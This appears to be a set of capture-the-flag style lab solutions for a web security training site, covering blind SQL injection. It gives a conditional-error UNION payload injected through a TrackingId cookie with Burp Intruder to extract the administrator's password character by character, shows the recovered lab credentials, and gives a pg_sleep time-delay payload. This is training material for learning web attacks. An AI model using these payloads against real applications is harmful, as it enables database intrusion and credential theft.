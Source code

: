 ```py
# Our attack will cycle through each position and possible value, testing each one in turn.
# Place payload position markers around the final a character in the cookie value. click the "Add §" button
TrackingId='+UNION+SELECT+CASE+WHEN+ (username='administrator'+AND+substr(password,1,1)='§a§') +THEN+to_char(1/0)+ELSE+NULL+END+FROM+users--
# To test the character at each position, assume that the password contains only lower case alphanumeric characters.
# Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range a - z and 0 - 9.
# Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.


# Review the attack results to find the value of the character at the first position.
# The application returns an HTTP 500 status code when the error occurs, and an HTTP 200 status code normally.
# The "Status" column in the Intruder results shows the HTTP status code, so you can easily find the row with 500 in this column. The payload showing for that row is the value of the character at the first position.
# Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value.
# To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2.
TrackingId='+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+substr(password,2,1)='§a§')+THEN+to_char(1/0)+ELSE+NULL+END+FROM+users--
# Launch the modified attack, review the results, and note the character at the second offset.
# Continue this process testing offset 3, 4, and so on, until you have the whole password.
# Go to the "Account login" function of the lab, and use the password to log in as the administrator user.

administrator
naa4txy4hmc2m2cz3230
```

---


# Lab: Blind SQL injection with time delays


```py
# Visit the front page of the shop, use Burp Suite to intercept

# modify the request containing the TrackingId cookie.
TrackingId=x'||pg_sleep(10)--

# Submit the request and observe that the application takes 10 seconds to respond.

```

---

